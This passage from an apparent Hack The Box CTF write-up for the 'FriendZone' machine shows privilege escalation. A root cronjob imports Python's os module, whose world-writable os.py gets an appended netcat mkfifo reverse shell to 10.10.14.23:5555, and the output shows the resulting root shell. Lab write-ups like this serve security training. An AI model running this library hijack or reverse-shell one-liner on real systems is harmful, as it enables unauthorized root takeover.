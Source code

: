 `/opt/server_admin` contains a `reporter.py` script that probably runs every minutes in a root owned cronjob:

```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

I can confirm it's running in a cronjob by using pspy:

![](/assets/images/htb-writeup-friendzone/pspy.png)

The script doesn't really do anything except import the standard `os` module.

Looking at the module definition, I see that the permissions are world writable on the one for Python 2.7:

```
friend@FriendZone:/opt/server_admin$ find /usr -name os.py 2>/dev/null
/usr/lib/python3.6/os.py
/usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python3.6/os.py
-rw-r--r-- 1 root root 37526 Sep 12 21:26 /usr/lib/python3.6/os.py
```

I can modify the `os.py` file and add a reverse shell at the end so when the module is imported by the script it'll execute my reverse shell.

```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 5555 >/tmp/f")
```

A few moments later I get a shell as root:

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 60168
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
b0e6c6...
```